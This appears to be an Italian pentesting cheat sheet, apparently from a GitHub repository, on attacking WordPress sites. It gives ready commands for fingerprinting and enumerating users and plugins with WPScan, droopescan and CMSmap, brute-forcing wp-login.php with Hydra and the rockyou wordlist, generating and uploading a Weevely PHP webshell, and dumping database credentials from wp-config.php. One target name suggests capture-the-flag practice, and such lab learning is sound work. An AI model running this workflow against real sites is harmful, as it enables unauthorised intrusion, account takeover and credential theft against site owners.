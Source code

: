 # 📰 WordPress Exploitation & Enumeration

Appunti e snippet per la fase di **ricognizione e attacco su WordPress**.

## 📌 Obiettivi

* Identificare se il target usa **WordPress**
* Enumerare versioni, plugin, temi e utenti
* Cercare vulnerabilità note sfruttabili
* Preparare brute force / exploit mirati

---

## 🔎 Riconoscere WordPress

**Perché farlo:**
Prima di lanciare WPScan conviene verificare che il target sia effettivamente WordPress.

### 🔹 Comandi rapidi

```bash
# Fingerprint con WhatWeb
whatweb http://<target-ip>/

# Cerca indizi di WordPress (wp-content, wp-admin)
curl -s -I http://<target-ip>/ | grep "wp-"
```

---

## 🛠️ WPScan (Main Tool)

**Perché usarlo:**
Strumento principale per l’enumerazione WordPress: versione, utenti, plugin, temi, vuln DB integrato.

**Opzioni principali:**

* `--url` → target
* `--enumerate` → enumera info (u = users, p = plugins, t = themes, vp = vuln plugins, vt = vuln themes)
* `--api-token` → usa database ufficiale di vulnerabilità (serve token gratuito)
* `-P` → brute force con wordlist
* `-U` → specifica username o lista di utenti

### 🔹 Comandi diretti

```bash
# Enum base
wpscan --url http://<target-ip> --enumerate u

# Enum full scan
wpscan --url http://ColddBoxEasy -e vp,vt,u 

# Enum plugin e versioni vulnerabili
wpscan --url http://<target-ip> --enumerate p --api-token <TOKEN>

# Enum utenti + brute force password
wpscan --url http://<target-ip> -U users.txt -P /usr/share/wordlists/rockyou.txt

```

### 💾 Salvataggio su file

```bash
wpscan --url http://<target-ip> --enumerate u,p,t --api-token <TOKEN> -o wpscan.txt
```

---

## 📦 Droopescan (Alternative CMS Scanner)

**Perché usarlo:**
Può rilevare plugin, temi e versioni di CMS (Drupal, SilverStripe, Joomla, WordPress).

### 🔹 Comando base

```bash
droopescan scan wordpress -u http://<target-ip>/
```

---

## 🗂️ CMSmap (Cross-CMS Enumeration)

**Perché usarlo:**
Supporta più CMS, incluso WordPress. Buono per test veloci.

### 🔹 Comando base

```bash
cmsmap http://<target-ip> -f W
```

---

## 🔑 Login Bruteforce (Hydra Alternative)

**Perché usarlo:**
Se WPScan non basta o vuoi parallelizzare.

### 🔹 Comando con Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

---

## 🐚 Upload Shell / Exploit

**Perché usarlo:**
Se puoi caricare file (es. plugin, media upload), testare upload di una **webshell**.

### 🔹 Quick example

```bash
# Usa Weevely per generare una webshell PHP
weevely generate pass123 shell.php

# Caricala in /wp-content/uploads/
```

---

## ⚡ Workflow tipico su WP

1. **Identifica** → WhatWeb / manual check `/wp-content/`
2. **Enumera** → WPScan (utenti, plugin, temi, vuln)
3. **Cerca credenziali** → brute con WPScan/Hydra
4. **Exploita** → plugin vulnerabili o shell upload
5. **Post-Explo** → wp-config.php (credenziali DB)

```bash
# Se ottieni accesso al server → dump credenziali MySQL
cat wp-config.php | grep DB_
```
